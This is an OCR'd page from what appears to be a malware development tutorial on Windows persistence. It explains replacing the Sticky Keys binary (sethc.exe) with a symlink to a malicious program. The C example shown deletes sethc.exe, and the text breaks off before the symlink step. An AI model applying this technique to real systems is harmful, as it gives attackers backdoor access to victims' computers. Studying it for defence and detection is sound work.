 \newpage
\subsection{91. malware development: persistence - part 25. Create symlink from legit to evil. Simple C example.}

﷽

![pers](./images/128/2024-07-14_13-00_1.png){width="80%"}    

In the one of the previous [posts](https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html) I wrote about popular persistence tricks via Accessibility features, the APT groups like APT3, APT29 and APT41 exploited this feature for attacking PCs.    

In this post, I simply show you the same trick with different logic: simply making symbolic link from legitimate app to malicious.     

### create symboliclink. accessibility features

Well-known approach used by attackers to achieve persistence is to create symbolic links (symlinks) that replace or reroute Windows Accessibility capabilities. This method is more complex than just changing binaries since it includes building a symlink from a valid system file or feature to a malicious file. When the system or a user attempts to access the original file or functionality, they are unintentionally sent to a harmful file.    

### practical example

The logic would seem to be quite simple, something like this:    

```cpp
#include <windows.h>
#include <stdio.h>

int main() {
  // path to the legitimate binary (e.g., Sticky Keys)
  const char* legitApp = "C:\\Windows\\System32\\sethc.exe";
  // path to the malicious binary
  const char* meowApp = "Z:\\hack.exe";

  // delete the original file (requires administrative privileges)
  if (!DeleteFileA((LPCSTR)legitApp)) {
    printf("error deleting original file: %d\n", GetLastError());
    return 1;
  }
  printf("original file deleted successfully\n");
```